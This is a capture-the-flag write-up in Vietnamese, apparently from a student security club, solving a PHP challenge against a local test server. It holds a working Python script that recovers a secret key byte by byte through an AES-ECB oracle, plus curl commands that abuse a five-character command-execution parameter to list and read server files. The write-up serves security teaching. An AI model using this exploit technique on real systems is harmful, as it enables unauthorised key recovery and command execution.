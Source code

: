 # EncryptBoizzz


## Enumeration
`source-code`: http://localhost:2010?debug=hint
```php
define('BLOCK_SIZE', 16);

function pad($string) {
	if (strlen($string) % BLOCK_SIZE === 0)
		$plaintext = $string;
	else  {
		$s = BLOCK_SIZE - strlen($string) % BLOCK_SIZE;
		$plaintext = $string.str_repeat(chr($s), $s);
	} 
	return $plaintext;
}
function encrypt($name) {
	global $auth_key, $key_for_enc; // from config.php with luv!!

	$method = 'AES-128-ECB';
	$plaintext = pad($name.$auth_key);
	return bin2hex(openssl_encrypt($plaintext, $method, $key_for_enc, OPENSSL_RAW_DATA));
}

if (isset($_GET["name"])) 
	$_SESSION["name"] = encrypt($_GET['name']);

if (isset($_GET['file'])) { // safe() in config.php, try to guess my filter =))
	if (safe($_GET['file'])) 
		@readfile($_GET['file']);
	else die("Dont hack me please =((((");
}

if (isset($_GET['auth_key'])) {
	if ($_GET['auth_key'] === $auth_key) {
		if ( isset($_GET["command"]) && strlen($_GET["command"]) <= 5)
			@system($_GET["command"]);
	}
	else echo "Wrong auth_key!!";
}
```

**Review source-code**:  

1. Chương trình lấy `name parameter` mà ta cung cấp, nối với `$auth_key` rồi encrypt bằng thuật toán `ECB`(Electronic Code Block) và convert sang hexdecimal rồi gán cho session. 

2. Cho file parameter và ta có thể đọc được các file trong hệ thống, tuy nhiên hàm này có đi qua 1 hàm fitler là `safe()`, ta có thể dùng `file` để đọc `/tmp/sess_[PHPSESSID]` và thấy được kết quả sau khi encrypt.

3. Cho `auth_key parameter`, nếu cung cấp đúng `auth_key` thì cho phép thực thi code tuy nhiên bị giới hạn không quá 5 ký tự.

## Exploit
Thuận toán encrypt ECB là 1 thuật toán mã hóa không an toàn, đặc biệt khi `block_siz`e quá nhỏ như 16 bytes. 

Ta biết rằng thuật toán ECB chia plaintext ra thành các block 16 bytes và encrypt các block này độc lập với nhau. Nếu chưa đủ 16 bytes thì thuật toán sẽ tự thêm padding cho đủ 16 bytes. 

Nếu ta request: `?name= 'A' * 32` thì ta sẽ được 2 block A sau khi encrypt là như nhau.
```
5673760b1cc65c365e93fa8f4317a2c4

5673760b1cc65c365e93fa8f4317a2c4

ddef00dfaf0fc11ded05777122bec5c5
5fec0e7366a611d06db4ea75b91cedc3
```
**Reference**: https://zachgrace.com/posts/attacking-ecb/

Như link tham khảo trên, ta thấy rằng có thể đọc được auth_key bằng cách brute-force từng byte của auth_key. 

**Python Exploit**:
```python
import requests
import string
import re

url = 'http://localhost:2010/'
characters = string.digits + string.ascii_letters
auth_key = ''

cookies = {
	'PHPSESSID': '420e324bd72e1caf08a5cdf5d28317b4'
}

def check():
	r = requests.get(url, cookies=cookies, params={'file': '/tmp/sess_420e324bd72e1caf08a5cdf5d28317b4'})
	
	block = re.findall('name|s:.*:"(.*)";', r.text)[1]

	return block[0:32] == block[32:64]


for i in range(15, -1, -1):
	for c in characters:
		payload = 'A' * i + auth_key + c + 'A' * i

		r = requests.get(url, cookies=cookies, params={'name': payload})

		print(c)

		if check():
			auth_key += c
			print('[FOUND] - ' + auth_key)
			break
```

**auth_key**: `AuthKey4N00b3r`

**payload**: 
```bash
# List file tìm được file chứa flag
curl 'http://localhost:2010/?command=ls%20/&auth_key=AuthKey4N00b3r'
# nice_flag_for_new_kcsc_member.txt

# Vì tham số command bị giới hạn kí tự, ta có thể dùng: "m4 /*" để đọc hết file
curl 'http://localhost:2010/?command=m4%20/*&auth_key=AuthKey4N00b3r'
```

**flag**: `KCSC{flag_for_testing}`
